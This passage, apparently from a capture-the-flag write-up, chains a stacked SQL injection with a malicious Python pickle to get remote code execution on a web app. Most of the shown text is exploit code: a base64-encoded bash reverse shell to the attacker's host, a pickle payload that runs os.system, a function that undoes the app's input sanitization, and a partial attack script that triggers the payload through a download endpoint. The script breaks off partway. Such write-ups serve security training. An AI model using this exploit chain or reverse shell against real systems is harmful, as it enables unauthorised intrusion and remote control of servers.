 ```python
encodedCommand = base64.b64encode(f'bash -i >& /dev/tcp/{LHOST} 0>&1'.encode('utf-8')).decode('utf-8')
Command = f'echo "{encodedCommand}" | base64 -d | bash '
picklePayload = doPickle(Command).decode('utf-8')
```

Reference: https://silver-4.gitbook.io/about/this-week/capture-the-flag/transfer

### Inserting the payload into the files table

From the schema, the files table takes in unique filename, blob data and valid session id.

SQLi Query: `admin';\nINSERT INTO files (filename, data, sessionid) VALUES ('MYFILE', 'PICKLEPAYLOAD', '123');--`

Passing it through the `DBRestore` function I made, we can get the `DBClean` version of this.

### Final Script

```python
import pickle, requests ,sys, random, base64, os

# Specifying URL of the site and 

URL, IP_PORT = sys.argv[1], sys.argv[2].replace(":", "/")

print(f"(+) Target URL: {URL}")
print(f"(+) Your IP and PORT: {IP_PORT}")

# Function to make the pickle RCE payload

def doPickle(payload):
    class PickleRce(object):
        def __reduce__(self):
            return (os.system, (payload,))
    
    return base64.b64encode(pickle.dumps(PickleRce()))

# Function to trigger the RCE payload after inserting into the DB

def triggerPayload(filename):
    print("(+) Trigger payload")
    
    headers = {
        'Host': URL,
        'Content-Type': 'application/x-www-form-urlencoded',
    }

    endpoint = f"{URL}/download/{filename}/123"
    print(f"(+) Endpoint: {endpoint}")

    return requests.get(endpoint, headers=headers, verify=False, allow_redirects=False).text
    
# Inverted Function for the DBClean sanitization

def DBRestore(string):

    string = string.replace("'", "\\")
    string = string.replace("\n", "%0a")
    string = string.replace(" ", "/**/")

    return string
    
# Function to send the HTTP requests to /login endpoint for inserting different queries

```